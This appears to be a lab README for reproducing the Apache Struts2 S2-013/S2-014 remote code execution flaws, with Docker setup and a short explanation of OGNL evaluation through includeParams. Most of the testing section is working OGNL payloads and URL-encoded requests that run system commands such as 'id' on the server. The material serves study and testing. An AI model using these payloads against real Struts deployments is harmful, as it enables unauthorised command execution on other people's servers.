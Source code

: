 # S2-013/S2-014 Remote Code Execution Vulnerability

Impact version: 2.0.0 - 2.3.14.1

Vulnerability details:

 - http://struts.apache.org/docs/s2-013.html
 - http://struts.apache.org/docs/s2-014.html

## Test environment construction

```
Docker-compose build
Docker-compose up -d
```

## Principles and Testing

The `<s:a>` and `<s:url>` in the Struts2 tag both contain an includeParams attribute whose value can be set to none, get or all. The official meaning of the reference is as follows:

1. none - the link does not contain any parameter values ​​requested (default)
2. get - the link only contains the parameters and their values ​​in the GET request
3. all - the link contains all parameters of GET and POST and their values

`<s:a>` is used to display a hyperlink. When `includeParams=all`, the GET and POST parameters of this request are placed on the GET parameter of the URL. The parameters are OGNL rendered during the placement of the parameters, causing any command execution vulnerabilities.

Execute the POC with any command:

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),#b=new java.io.InputStreamReader(#a ), #c=new java.io.BufferedReader(#b),#d=new char[50000],#c.read(#d),#out=@org.apache.struts2.ServletActionContext@getResponse(). getWriter(),#out.println(#d),#out.close())}

// or

${#_memberAccess["allowStaticMethodAccess"]=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())}
```

Such as: `http://your-ip:8080/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime( ).exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew %20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D' %2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D`

![](1.png)

S2-014 is an enhancement to the S2-013 fix, which ignores the way the ${ognl_exp} OGNL expression is executed in the code fixed in S2-013, so S2-014 is a patch enhancement.

```
Http://localhost:8080/S2-013/link.action?xxxx=%24%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess %27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29%29%7D
```